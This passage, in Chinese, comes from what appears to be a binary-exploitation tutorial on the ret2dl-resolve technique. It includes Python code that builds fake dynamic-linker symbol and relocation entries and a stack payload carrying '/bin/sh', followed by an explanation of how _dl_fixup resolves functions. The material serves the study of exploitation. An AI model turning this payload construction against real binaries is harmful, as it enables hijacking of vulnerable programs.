 

#### Stage 5

把 `st_name` 指向栈上的字符串 “write”，也就是赋值为字符串关于 dynstr 的偏移量。

`st_name = (fake_sym_addr + 0x10) - dynstr`，加 0x10 为 `fake_sym` 的大小。

```python
···
cmd = b"/bin/sh"
plt_0 = 0x8048370
rel_plt = 0x8048318
index_offset = (base_stage + 0x1c) - rel_plt
write_got = elf.got['write']

dynsym = 0x80481d8
dynstr = 0x8048268
fake_sym_addr = base_stage + 0x24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (int(index_dynsym) << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2  = b'AAAA'                           # 0x00
payload2 += p32(plt_0)                        # 0x04
payload2 += p32(index_offset)                 # 0x08
payload2 += b'AAAA'                           # 0x0c
payload2 += p32(1)                            # 0x10
payload2 += p32(base_stage + 80)              # 0x14
payload2 += p32(len(cmd))                     # 0x18
payload2 += fake_reloc                        # 0x1c
payload2 += b'B' * align
payload2 += fake_sym                          # 0x24+align = fake_sym_addr
payload2 += b"write\x00"                      # fake_sym_addr+0x10
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'                     # 80
payload2 += b'A' * (100 - len(payload2))
···
```



到这里就可以分析 `_dl_fixup()` 函数了，在 32 位的情况下，这个函数主要有如下步骤：

1、通过前面在 plt 表项中第二条指令 push 的 n 计算函数的重定位表项 reloc；

2、通过 reloc 的 r_info 定位符号表项 sym；

3、通过 sym 的 st_name 确定函数名并返回函数地址。

```
reloc_offset --> reloc --> r_info --> sym --> st_name --> st_value --> func()
```

